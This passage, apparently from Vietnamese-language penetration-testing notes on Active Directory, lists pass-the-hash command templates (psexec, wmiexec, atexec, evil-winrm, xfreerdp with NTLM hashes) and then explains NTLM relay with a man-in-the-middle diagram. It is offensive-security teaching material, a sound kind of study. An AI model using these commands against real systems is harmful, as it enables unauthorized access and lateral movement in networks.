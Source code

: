 ```none
psexec.py -hashes ":<hash>" <user>@<ip>
wmiexec.py -hashes ":<hash>" <user>@<ip>
atexec.py -hashes ":<hash>" <user>@<ip> "command"
evil-winrm -i <ip>/<domain> -u <user> -H < hash>
xfreerdp /u:<user> /d:<domain> /pth:<hash> / v:<ip>
```

## NTLM Relay


[NTLM Relay](https://en.hackndo.com/ntlm-relay/) bao gồm 1 người đứng ở giữa và lợi dụng vị trí trung gian của nó để chuyển hướng xác thực NTLM đến 1 máy chủ mà nó muốn để có lấy `authenticated session`.

![](img/ntlm_relay_basic.png)

```none
  client                 attacker               server
      |                       |                     |
      |                       |                -----|--.
      |     NEGOTIATE         |     NEGOTIATE       |  |
      | --------------------> | ------------------> |  |
      |                       |                     |  |
      |     CHALLENGE         |     CHALLENGE       |  |> NTLM Relay
      | <-------------------- | <------------------ |  |
      |                       |                     |  | 
      |     AUTHENTICATE      |     AUTHENTICATE    |  |
      | --------------------> | ------------------> |  |
      |                       |                -----|--'
      |                       |    application      |
      |                       |     messages        |
      |                       | ------------------> |
      |                       |                     |
      |                       | <------------------ |
      |                       |                     |
      |                       | ------------------> |
      |                       |                     |
```
